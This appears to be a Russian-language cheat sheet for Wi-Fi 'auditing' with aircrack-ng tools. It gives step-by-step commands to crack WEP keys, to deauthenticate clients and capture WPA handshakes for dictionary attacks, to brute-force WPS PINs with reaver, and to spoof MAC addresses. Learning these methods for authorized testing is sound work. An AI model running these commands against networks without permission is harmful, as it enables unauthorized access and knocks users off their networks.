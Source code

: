 # Аудит Wi-Fi

Режимы работы Wi-Fi:

* Client mode (managed mode) - ловить только своё
* Monitor mode (rfmon mode) - ловить всё отовсюду
* Promiscuous mode - ловить всё в своей сети

Запуск монитора:

```bash
airmon-ng start wlan0
```

Отключить всех, кто использует сетевую карту:

```bash
airmon-ng check kill
```

Вывод на экран всего, что поймаем:

```bash
airodump-ng mon0
```


## airodump-ng

```bash
airodump-ng -c 3 mon0
```

зафиксировать канал №3 — полный приём пакетов без потерь при переключении на другие каналы (из-за перекрывающихся частот в список могут попасть соседние каналы).

```bash
airodump-ng -w captures.pcap mon0
```

записывать все принятые пакеты в файл captures.pcap — используется для offline-атаки на перебор пароля WEP/WPA (будет освещено в следующей части).

```bash
airodump-ng --essid "Имя сети" mon0
```

фильтровать принимаемые (записываемые/отображаемые) пакеты по принадлежности к заданному имени сети. Обычно используется для уменьшения размера файла, так как на качество перехвата это никак не влияет.

```bash
airodump-ng --bssid 01:02:03:AA:AA:FF mon0
```

фильтрация по MAC-адресу точки доступа (BSSID). Аналогично `--essid`.


## WEP

1. Поймать много-много пакетов
	1. Нацелить монитор на точку доступа
	    ```bash
		airodump-ng -c CHANNEL --bssid AP_BSSID -w output wlan0
		```
	2. Подружиться с точкой доступа
	    ```bash
		aireplay-ng -1 0 -e ESSID -a MAC_ТД -h НАШ_MAC wlan0
		```
	3. Создать паразитный трафик
	    ```bash
		aireplay-ng -3 -b MAC_ТД -h НАШ_MAC wlan0
		```
2. Перебор пароля
    ```bash
	aircrack-ng -z output*.cap
	```


## WPA/WPA2

1. Включить мониторинг пакетов
    ```bash
	airodump-ng -c CHANNEL --bssid AP_BSSID -w output mon0
    ```
2. Выкидываем клиента из сети и ловим handshake
    ```bash
	aireplay-ng --deauth 5 -0 CHANNEL -a AP_BSSID -c CLIENT_BSSID mon0
	```
3. Перебор по словарю
    ```bash
	aircrack-ng -w password.lst -b AP_BSSID output*.cap
	```


## WPS

Список сетей с WPS:

```bash
wash -i mon0
```

```bash
reaver -i mon0 -c CHANNEL -b AP_BSSID -va
```

Некоторые ключи:

```
-m OUR_MAC
-e AP_ESSID
-p PIN
-vv -- для показа принятых/переданных пакетов, в том числе тех самых M4 и M6. Полезно для отслеживания активности при плохом соединении.
```

## Смена MAC

```bash
ifconfig wlan0 down 
ifconfig wlan0 hw ether 00:11:22:AA:AA:AA 
ifconfig wlan0 up
```

Случайный MAC:

```bash
macchanger -r wlan0 

Определённый MAC:

```bash
macchanger -m 11:22:33:AA:BB:CC wlan0 
```

Показать MAC:

```bash
macchanger -s wlan0 
```


